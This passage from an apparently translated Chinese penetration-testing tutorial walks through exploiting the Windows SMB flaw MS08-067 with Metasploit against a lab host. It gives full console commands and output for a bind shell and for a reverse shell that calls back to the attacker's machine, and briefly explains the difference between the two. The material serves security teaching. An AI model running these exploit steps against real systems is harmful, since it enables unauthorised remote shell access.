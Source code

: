 ```
 msf> use exploit/windows/smb/ms08_067_netapi
    msf exploit(ms08_067_netapi) > show options
    msf exploit(ms08_067_netapi) > set RHOST 192.168.0.7
    RHOST => 192.168.0.7
    msf exploit(ms08_067_netapi) > set PAYLOAD windows/shell/bind_tcp
    PAYLOAD => windows/shell/bind_tcp
    msf exploit(ms08_067_netapi) > exploit

    [*] Started bind handler
    [*] Automatically detecting the target...
    [*] Fingerprint: Windows XP Service Pack 2 - lang:English
    [*] Selected Target: Windows XP SP2 English (NX)
    [*] Attempting to trigger the vulnerability...
    [*] Sending stage (240 bytes) to 192.168.0.7
    [*] Command shell session 1 opened (192.168.0.3:41289 -> 192.168.0.7:4444) at Sat Nov 13 19:01:23 +0000 2010
    Microsoft Windows XP [Version 5.1.2600]
    (C) Copyright 1985-2001 Microsoft Corp.

    C:WINDOWSsystem32> 
```

因此，我们已经分析了 Metasploit 也自动化了使用集成的多负载处理程序连接到绑定 shell 的过程。在编写自己的利用程序并使用绑定 shellcode 时，Netcat 等工具可以派上用场，这需要第三方处理程序来建立到受损主机的连接。您可以在[`en.wikipedia.org/wiki/Netcat`](http://en.wikipedia.org/wiki/Netcat)上阅读有关 Netcat 在各种网络安全操作中的实际用例。

# 反向 shell

反向 shell 是绑定 shell 的完全相反。它不是在目标系统上绑定端口并等待来自攻击者机器的连接，而是简单地连接回攻击者的 IP 和端口，并生成一个 shell。反向 shell 的一个显著特点是考虑到目标位于 NAT 或防火墙之后，阻止公共访问其系统资源。

以下是开始利用和设置反向 shell 的命令：

```
 msf> use exploit/windows/smb/ms08_067_netapi
    msf exploit(ms08_067_netapi) > set RHOST 192.168.0.7
    RHOST => 192.168.0.7
    msf exploit(ms08_067_netapi) > set PAYLOAD windows/shell/reverse_tcp
    PAYLOAD => windows/shell/reverse_tcp
    msf exploit(ms08_067_netapi) > show options
    msf exploit(ms08_067_netapi) > set LHOST 192.168.0.3
    LHOST => 192.168.0.3
    msf exploit(ms08_067_netapi) > exploit

    [*] Started reverse handler on 192.168.0.3:4444
    [*] Automatically detecting the target...
    [*] Fingerprint: Windows XP Service Pack 2 - lang:English
    [*] Selected Target: Windows XP SP2 English (NX)
    [*] Attempting to trigger the vulnerability...
    [*] Sending stage (240 bytes) to 192.168.0.7
    [*] Command shell session 1 opened (192.168.0.3:4444 -> 192.168.0.7:1027) at Sat Nov 13 22:59:02 +0000 2010
    Microsoft Windows XP [Version 5.1.2600]
    (C) Copyright 1985-2001 Microsoft Corp.

    C:WINDOWSsystem32> 
```
